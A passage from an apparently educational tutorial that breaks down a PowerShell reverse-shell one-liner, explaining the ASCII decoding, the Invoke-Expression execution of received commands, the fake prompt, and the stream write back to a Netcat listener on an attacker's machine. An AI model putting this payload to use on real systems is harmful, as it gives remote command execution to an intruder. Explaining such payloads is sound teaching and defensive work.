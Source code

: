 #### Set The Byte Encoding

  Set The Byte Encoding

```sh
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```

Sets/evaluates the variable `$data` equal to (`=`) an [ASCII](https://en.wikipedia.org/wiki/ASCII) encoding .NET framework class that will be used in conjunction with the `GetString` method to encode the byte stream (`$bytes`) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. The semi-colon (`;`) ensures the commands & code are executed sequentially.

#### Invoke-Expression

  Invoke-Expression

```sh
$sendback = (iex $data 2>&1 | Out-String ); 
```

Sets/evaluates the variable `$sendback` equal to (`=`) the Invoke-Expression (`iex`) cmdlet against the `$data` variable, then redirects the standard error (`2>`) `&` standard output (`1`) through a pipe (`|`) to the `Out-String` cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon (`;`) ensures the commands & code are executed sequentially.

#### Show Working Directory

  Show Working Directory

```sh
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```

Sets/evaluates the variable `$sendback2` equal to (`=`) the `$sendback` variable plus (`+`) the string PS (`'PS'`) plus `+` path to the working directory (`(pwd).path`) plus (`+`) the string `'> '`. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. The semi-colon (`;`) ensures the commands & code are executed sequentially. Recall that the + operator in programming combines strings when numerical values aren't in use, with the exception of certain languages like C and C++ where a function would be needed.

#### Sets Sendbyte

  Sets Sendbyte

```sh
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

Sets/evaluates the variable `$sendbyte` equal to (`=`) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

#### Terminate TCP Connection

  Terminate TCP Connection
